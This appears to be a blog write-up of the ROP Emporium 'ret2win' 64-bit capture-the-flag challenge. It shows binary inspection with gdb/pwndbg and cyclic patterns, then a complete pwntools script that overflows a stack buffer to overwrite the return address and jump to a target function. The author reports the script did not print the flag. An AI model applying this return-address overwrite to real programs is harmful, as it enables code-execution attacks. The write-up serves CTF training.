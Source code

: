 This is a writeup on the ROP Empourioum challenge Ret2Win.
I will be doing this series in the span of this week , so stay tuned for more writeups.
The challenge is a 64-bit binary. Lets begin.

So I downloaded the binary from [ROP](https://ropemporium.com/binary/ret2win.zip) and unziped.

![list](/post-images/ret2win64/List.png)

I then ran the ret2win through a file ***forgot to performa a checksec I'll remember next time***. I did a cat on the ret2win file but all I got was gibberish, so I never bothered.
But I remembered to perform a strings later on in the working out.

![file](/post-images/ret2win64/02file.png)

![strings](/post-images/ret2win64/08strings.png)

I then did a crude opration run on the binary to see if I could get a feeling of the basics of the challenge.
I ran the binary and it gave me a prompt to enter my input, and the input was sanitized by the **read()** function.
I first did a basic input to see the outcome.

![run](/post-images/ret2win64/03run.png)

I then opened gdb using pwndbg and checked the functions available in the binary. This can also be done using **Ghidra**.

![gdb](/post-images/ret2win64/04gdb.png)

Ran a `cyclic` command to get random characters that I would use as input for my binary.
```
cyclic 100
```
![cyclic](/post-images/ret2win64/05cyclic.png)

I then ran the binary with the cyclic input and it gave me a segmentation fault. The code ran and because it "broke" it redirected me to the `pwnme` function rather than the desired `ret2win` function.

![segfault](/post-images/ret2win64/06runandbreak.png)

![pwnme](/post-images/ret2win64/07returnspwnme.png)

here is the pwnme redirect.

Since we have the address to the ret2win function, I created a pwntools template exploit to get to the address of the ret2win function which hosts the flag.

**NOTE:** ***You must have `pwn` already installed in your machine to get this template or you can search for it online.***
```
pwn template
```
![pwntemp](/post-images/ret2win64/09pwntemplate.png)

Here is the template exploit I created:
```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    # Start the exploit against the target
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './ret2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Print out the target address
info("%#x target", elf.symbols['ret2win'])

# We will send a 'cyclic' pattern which overwrites the return
# address on the stack.  The value 128 is longer than the buffer.
payload = cyclic(128)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of RSP at the time of crashing (SP for ARM)
stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
info("%r pattern", pattern)

# Print out the address of EIP at the time of crashing
rip_offset = cyclic_find(pattern)
info('located RIP offset at {a}'.format(a=rip_offset))

# Craft a new payload which puts the "target" address at the correct offset
payload = fit({
    pattern: elf.symbols.ret2win
})

# Send the payload to a new copy of the process
io = start()
io.sendline(payload)
io.recv()

# Get our flag!
flag = io.recvline()
success(flag)

```
I ran the script and it compiled successfully and I got the message to the flag but not the flag clearly.

![flag](/post-images/ret2win64/11flag.png)

I think its an error cause I also created a bin file and storeed it there but there was no flag still, If any one can know what the issue is please reach out. Thank you


